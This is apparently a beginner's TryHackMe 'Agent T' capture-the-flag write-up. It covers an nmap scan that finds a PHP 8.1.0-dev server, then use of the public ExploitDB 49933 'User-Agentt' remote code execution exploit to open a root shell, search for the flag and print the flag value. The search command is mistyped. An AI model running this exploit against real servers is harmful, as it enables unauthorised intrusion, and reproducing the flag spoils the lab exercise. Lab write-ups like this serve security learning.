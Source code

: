 # **Tryhackme | Agent T**

target ip: http://10.10.50.113

### Step 1: [Initial Observation / Reconnaissance]

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-30 04:46 EST
Nmap scan report for 10.10.50.113
Host is up (0.25s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard

Upon further inspection:
- No file upload fields or input forms are visible on the landing page.
- Navigating to various subdirectories results in error messages, indicating restricted access to certain areas.


### Step 2: Information Gathering / Vulnerability Identification

Running some gobuster all of them it didn't worked so I went to BurpSuite 

On the BurpSuite one vulnerability is the header which is the PHP version name **PHP 8.1.0-dev** of the website and looked into ExploitDB

https://www.exploit-db.com/exploits/49933 - 'User-Agentt' Remote Code Execution

### Step 3: Exploitation

I download from the explo-db of that exploit and run it which it worked

python3 49933.py  
Enter the full host url:
http://10.10.50.113

Interactive shell is opened on http://10.10.50.113 
Can't acces tty; job crontol turned off.
$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor

Since i run the command "id" it shows that i am the root which i can see the whole file system
to search the flag with the command 

**file / -name flag.txt 2/dev/null**

flag{4127d0530abf16d6d23973e3df8dbecb}


disclaimer: still practicing my documentation
